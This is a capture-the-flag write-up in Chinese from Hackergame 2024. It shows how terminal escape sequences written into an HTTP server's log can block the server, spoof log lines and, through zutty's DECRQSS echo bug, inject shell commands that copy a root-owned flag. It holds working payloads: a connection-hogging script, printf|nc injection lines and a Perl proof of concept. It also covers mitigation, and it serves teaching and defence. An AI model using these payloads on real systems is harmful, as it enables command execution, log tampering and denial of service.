


# 动画分享

题解作者：[taoky](https://github.com/taoky)

出题人、验题人、文案设计等：见 [Hackergame 2024 幕后工作人员](https://hack.lug.ustc.edu.cn/credits/)。

## 题目描述

- 题目分类：general

- 题目分值：只要不停下 HTTP 服务，响应就会不断延伸（200）+ 希望的终端模拟器，连接着我们的羁绊（250）

为了给同学分享动画片，小 T 启动了自己之前用超安全的 Rust 语言写的 Web server，允许你访问「当前目录」的文件，当然了，flag 可不在当前目录。不过因为快到饭点了，小 T 还没来得及复制视频文件到对应的目录，于是就只在自己最常使用的、**几年前编译的某<del>祖传</del>终端模拟器**里面跑起了自己的 `fileserver`，然后就去锁屏吃饭了。

小 T：「诶，我不过就分享个文件，而且目录里面也没别的东西，所以没关系吧～而且我特地搞了个 chroot，就算我真写出了什么漏洞，你也休想看到我的 flag！」

请提交一个程序，题目环境会在模拟小 T 的环境运行之后，降权运行你的程序：

- 如果你能让小 T 的 `fileserver` 无法正常响应请求（例如让 `fileserver` 退出），你可以获得第一小题的 flag。
- 第二小题的 flag 在 `/flag2`，你需要想办法得到这个文件的内容。

环境限制总 PID 数为 64。

**[题目附件下载](files/动画分享.zip)**

[打开/下载题目](http://202.38.93.141:19923/?token={token})

## 题解

### 前言

本题事实上是[「LESS 文件查看器在线版」](../LESS%20文件查看器在线版/)这道题的副产物。因为我当时看到 less 那道题目的时候，第一反应是 ANSI，所以去搜索了一些和 ANSI 转义字符相关的问题，因此有了这道题。

如果希望了解更多，强烈推荐观看 DEF CON 31 的以下两个讲座：

- "Weaponizing Plain Text ANSI Escape Sequences as a Forensic Nightmare"（[YouTube](https://www.youtube.com/watch?v=3T2Al3jdY38), [Slides](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/ST%C3%96K%20-%20Weaponizing%20Plain%20Text%20ANSI%20Escape%20Sequences%20as%20a%20Forensic%20Nightmare.pdf)）
- "Terminally Owned - 60 Years of Escaping"（[YouTube](https://www.youtube.com/watch?v=Y4A7KMQEmfo), [Slides](https://media.defcon.org/DEF%20CON%2031/DEF%20CON%2031%20presentations/David%20Leadbeater%20-%20Terminally%20Owned%20-%2060%20years%20of%20escaping.pdf)）

本题的原型是 Python `http.server` 没有处理 HTTP 请求第一行的 ANSI 转义字符，结果在特定的终端模拟器下会导致 RCE 的问题。但是因为测试发现这个 payload 不太能够很稳定地触发，因此 Python `http.server` 改成了一个 Rust 的 naive 单线程的实现，同时使得第一小问的难度降低很多。

但是，就算终端模拟器没有 bug，接受任意用户输入并且输出的终端应用也还是需要做好过滤，否则很容易迷惑人类。还是以上面的 HTTP 服务器为例子，如果我发送一个这样的请求：

```sh
printf "GET /dangerous?\e[10Dindex.html HTTP/1.0\r\n\r\n" | nc 127.0.0.1 8000
```

那么即使你实际访问的是 `/dangerous`，人类在 cat/tail 的时候看到的也是：

```http
GET /index.html HTTP/1.0
```

你甚至还可以在服务器的 HTTP 日志里面留下卡通图片（不能太大，否则会超服务器自己的 URI 长度限制），像这样：

```sh
# 控制一下图片大小
img2sixel -w 10% -h 10% ./DVwyApZVQAIurns.png > /tmp/sixel
printf "GET /%s HTTP/1.0\r\n\r\n" "$(cat /tmp/sixel)" | nc 127.0.0.1 8000
```

（[原图](https://www.pixiv.net/en/artworks/67242257)）

在支持 Sixel 协议的终端模拟器（例如 Konsole）里，使用 `python:2` 容器的 `SimpleHTTPServer` 测试，效果如图：



如果你是 Windows Terminal 用户，你甚至可以在看日志的时候[使用 DECPS 转义序列听歌](https://github.com/microsoft/terminal/issues/8687)！以下抛砖引玉，给出一个例子：

```sh
printf "GET /?\e[3;16;5,~\e[3;8;3,~\e[3;16;1,~\e[3;8;3,~\e[3;12;5,~\e[3;4;6,~\e[3;8;5,~\e[3;24;3,~ HTTP/1.0\r\n\r\n" | nc 127.0.0.1 8000
```

https://github.com/user-attachments/assets/4544647c-3755-4a1b-85c8-3204b957478e

[decps-haruhikage.mp4](assets/decps-haruhikage.mp4)

参考资料：<https://qiita.com/good_kobe/items/a11366d27fc6b62774ff#decps%E3%81%AE%E8%A9%B3%E7%B4%B0%E3%83%AA%E3%83%B3%E3%82%AF>（日文）

（不过严肃地讲，这个处理似乎是阻塞的。如果音符的时间调得很长，是不是可以变相地 DoS 跑在 Windows Terminal 上的有问题的程序？）

### Flag 1

可以轻松注意到这个 Rust 代码是这样处理传入连接的：

```rust
for stream in listener.incoming() {
    match stream {
        Ok(stream) => {
            handle_connection(stream);
        }
        Err(e) => {
            eprintln!("Connection failed: {}", e);
        }
    }
}
```

没有异步、没有线程，因此只要开一个连接，然后什么都不发送，就可以卡住了。为了让 server.py 能走后续流程，需要先 fork 一个进程出来，在子进程里面创建这个连接然后睡大觉，父进程稍等一会退出即可。

一个简单的 Python 版本如下：

```python
#!/usr/bin/python3
import multiprocessing
import socket
import time

def connect_and_sleep():
    try:
        with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
            s.connect(('127.0.0.1', 8000))
            print(f"Connected to 127.0.0.1:8000 - PID: {multiprocessing.current_process().pid}")
            while True:
                time.sleep(3600)
    except Exception as e:
        print(f"Connection failed: {e}")


if __name__ == "__main__":
    p = multiprocessing.Process(target=connect_and_sleep)
    p.start()
    time.sleep(1)
    print("done")
```

所以 Flag 1 事实上是送分用的。

不过，结合上面提到的 ANSI 转义符号，有另一种方法可以同时得到 Flag 1 和 Flag 2。

### Flag 2

`Dockerfile` 中构建有缺陷的终端模拟器的命令如下：

```dockerfile
RUN apt update && apt install -y git build-essential python3-dev pkg-config libfreetype-dev libxmu-dev libgles2-mesa-dev && \
    git clone https://git.hq.sig7.se/zutty.git && cd zutty && git checkout 0.12 && \
    ./waf configure && ./waf
```

因此可以检查 [shortlog](https://git.hq.sig7.se/zutty.git/shortlog) 页面，看看 0.12 以上的版本修了什么问题：



可以注意到 [commit bde7458c60a7bafe08bbeaafbf861eb865edfa38](https://git.hq.sig7.se/zutty.git/commit/bde7458c60a7bafe08bbeaafbf861eb865edfa38)：

```git
Do not echo invalid input on DECRQSS (Request Status String)

Echoing invalid input to the console allows a malicious console
application to invoke an arbitrary command. We now respond to such
invalid requests with a cancel, just like xterm.

Thanks to Carter Sande of duodecima.technology for calling my
attention to this issue.

See also CVE-2008-2383 and the discussion on Debian bug #510030.
```

搜索可以发现这是在实现终端模拟器时的一个常犯的错误，最初于 2008 年在 xterm 上被发现并修复，但是后续在包括本例的 zutty，以及 macOS 下最流行的终端模拟器 iTerm2（CVE-2022-45872）上都出现过。

[DECRQSS](https://vt100.net/docs/vt510-rm/DECRQSS.html) 为 "**DEC** **R**e**q**uest **S**election or **S**etting"，允许程序获取一些像光标状态之类的终端信息。终端在收到 DECRQSS 之后，需要返回 [DECRPSS](https://vt100.net/docs/vt510-rm/DECRPSS.html) 消息，其中文档里面有这么一段：

> **Format**
>
> DCS Ps $ r D ... D ST
>
> ...
>
> **Parameters**
>
> Ps
>
> indicates whether or not the request from the host is valid.
>
> Ps 	Host Request
>
> 0 	Host's request is valid.
>
> 1 	Host's request is invalid.
>
> D ... D
>
> indicates the current setting of a valid control function that the host asked about. D...D consists of all the characters in the control function, except the CSI (9/11) or ESC [ (1/11, 5/11) introducer characters.

那么，如果程序给的 DECRQSS 是无效字符的话，`D ... D` 还需要输出吗？如果只看这一部分就去实现的话，显然会觉得要这么做，然后就导致了程序的任意输出都会被终端模拟器变成用户输入。具体可以参考 2008 年时候 [漏洞报告邮件](https://bugs.debian.org/cgi-bin/bugreport.cgi?bug=510030) 里的 PoC：

```sh
perl -e 'print "\eP\$q\nbad-command\n\e\\"'
```

于是整个利用链条就可以是，给一些 DECRQSS 序列，使得有问题的实现会：

- 模拟用户按下 Ctrl + C（或者别的快捷键），把 `fileserver` 关掉（顺便拿到 Flag 1）
- 模拟用户输入 `cp /flag /dev/shm/flag`
- 模拟用户输入 `chmod 777 /dev/shm/flag`

这样就能以 root 的身份把 flag 送给我们了。但是构造的时候有一个问题是：HTTP Server 只会输出整个 HTTP 请求的第一行，因此需要注意。

首先是关掉当前的进程，我们需要将 "Ctrl + C" 放在我们的自定义输入里面。Ctrl + C 事实上对应的是 ASCII 的第三个字符 [ETX（End of Text）](https://en.wikipedia.org/wiki/End-of-Text_character)。所以对应的序列是：

```sh
\eP\$q\x03\e\\
```

然后接下来要执行两个命令，但不能使用 `\n`。解决方法是……使用 `\r`。

我的理解是，Linux 的 TTY 默认情况下启用了 ICRNL（见 [termios(3)](https://www.man7.org/linux/man-pages/man3/termios.3.html)），会将输入的 `\r` 自动翻译为 `\n`。

最后构造出的 payload 类似如下：

```sh
#!/bin/bash

printf "GET /?\eP\$q\x03\e\\ \eP\$q\rcp /flag2 /dev/shm/example\r\e\\ \eP\$q\rchmod 777 /dev/shm/example\r\e\\ HTTP/1.0\n\n" | nc localhost 8000
sleep 2
ls /dev/shm/
cat /dev/shm/example
```

### 缓解方法

Python 的 `http.server` 的问题[在 2022 年底修复](https://github.com/python/cpython/issues/100001)。如果你使用的是最新小版本的 3.7 以及以上的话，那么就没有问题。不过有点糟糕的是，Debian 11 的 Python 3.9.2 还没有移植这个修复，Debian 12 的 3.11.2 是好的。

参考代码如下：

```python
# https://github.com/python/cpython/blob/a3443c0e22a8623afe4c0518433b28afbc3a6df6/Lib/http/server.py#L577
_control_char_table = str.maketrans(
        {c: fr'\x{c:02x}' for c in itertools.chain(range(0x20), range(0x7f,0xa0))})
_control_char_table[ord('\\')] = r'\\'

def sanitize_log(message: str) -> str:
    return message.translate(_control_char_table)
```

## 附注

比赛的时候收到了一封邮件咨询为什么上传的 Python 脚本会 executable not found。看录屏文件发现是因为文件是 CRLF 的，然后 shebang 实际上就变成了：

```sh
#!/usr/bin/python\r
```

而 `python\r` 这个文件是不存在的。但是又不能给提示，所以很遗憾。
